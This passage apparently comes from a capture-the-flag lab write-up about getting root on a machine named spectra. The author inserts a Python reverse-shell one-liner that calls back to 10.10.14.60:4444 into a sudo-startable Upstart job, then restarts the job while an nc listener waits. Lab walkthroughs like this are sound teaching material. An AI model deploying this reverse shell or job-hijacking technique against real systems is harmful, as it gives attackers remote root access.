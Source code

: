```
end script

pre-stop script
    rm /var/run/nodetest.pid
    echo "[`date`] Node Test Stopping" >> /var/log/nodetest.log
end script
```

### Getting the Root Flag

According to the manual page init(5), the `script` block contains the shell script that will be run when we start the job.
Therefore, to get access to the root shell, let's add the following script within the script block ([source](https://highon.coffee/blog/reverse-shell-cheat-sheet/#python-reverse-shell)).

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.60",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

The Python reverse shell is used here since, for some reason, bash reverse shell does not work and I know that Python is running on the remote machine.

This makes the final `script` block looks as follows

```
# -- snip --

script

    export HOME="/srv"
    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.60",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
    echo $$ > /var/run/nodetest.pid
    exec /usr/local/share/nodebrew/node/v8.9.4/bin/node /srv/nodetest.js

end script

# -- snip --
```

Also, don't forget to setup a listener on your local machine with `nc -nlvp 4444`.

Based on initctl(8) manual page, we can start a job using the `start` command. To make sure that the job is not running before we start it (since starting a running job will return an error), we can use the `stop` command.

```
katie@spectra /etc/init $ sudo initctl stop test
test stop/waiting
katie@spectra /etc/init $ sudo initctl start test
test start/running, process 55820
```
